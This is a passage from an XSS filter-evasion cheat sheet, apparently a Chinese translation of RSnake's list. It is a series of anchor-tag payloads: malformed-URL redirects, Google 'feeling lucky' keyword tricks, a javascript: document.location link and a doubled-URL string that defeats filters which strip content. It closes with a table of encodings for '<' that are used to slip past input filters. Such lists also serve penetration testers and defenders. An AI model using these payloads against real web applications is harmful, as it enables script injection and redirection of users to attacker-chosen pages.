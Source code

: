 ```
<A HREF="//www.google.com/">XSS</A>
```

**Google "feeling lucky" I** Firefox 使用 Google的"feeling lucky" 函数去重定向用户输入的任何关键字。因此你可以在可利用页面使用任何关键字针对任何Firefox用户。它是使用了"keyword:" 协议。你可以使用多个关键字像下面的例子：XSS+RSnake。它是无法使用在 Firefox as of 2.0。

```
<A HREF="//google">XSS</A>
```

**Google "feeling lucky" II** 这是使用一个小技巧让他工作在Firefox，因为只有它实现了 "feeling lucky" 函数。不像下一个例子，它是无法工作在 Opera ，由于 Opera认为它是一种老的钓鱼攻击。它是一个简单的畸形url。如果你点击弹出框的确定按钮它将工作。但是由于这是一个错误对话框，我是说Opera是不支持它。它也不再被支持在 Firefox 2.0。

```
<A HREF="http://ha.ckers.org@google">XSS</A>
```

**Google "feeling lucky" III** 它是通过畸形url来工作在Firefox 和 Opera浏览器。因为只有他们实现了 "feeling lucky" 函数。像上面的例子一样，它们需要你的网站在谷歌搜索中排名第一。（例如google）

```
<A HREF="http://google:ha.ckers.org">XSS</A>
```

**移除别名** 结合上面的url。移除 "www." 将节省四个字符。

```
<A HREF="http://google.com/">XSS</A>
```

**绝对 DNS用额外的点**

```
<A HREF="http://www.google.com./">XSS</A>
```

**JavaScript link location**

```
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>
```

**针对内容替换的攻击向量** 假设 "http://www.google.com/" 会被替换为空。我确实使用了一个简单的攻击向量去针对特殊文字过滤依靠过滤器本身。这是一个例子去帮助创建向量。（IE: "java script:" 被替换为"java script:", 它是仍可以工作在 IE,使用安全模块的 Netscape 8.1+ 和 Opera）

```
<A HREF="http://www.gohttp://www.google.com/ogle.com/">XSS</A>
```

* * *

### 字符编码表

再付 "<" 在html或是javascript中所有可能的编码形式。它们绝大多数是无法正常渲染的，但是可以在上文中某些情景下得到渲染。

```
<
%3C
&lt
&lt;
&LT
&LT;
&#60
&#060
&#0060
&#00060
&#000060
&#0000060
&#60;
&#060;
&#0060;
&#00060;
```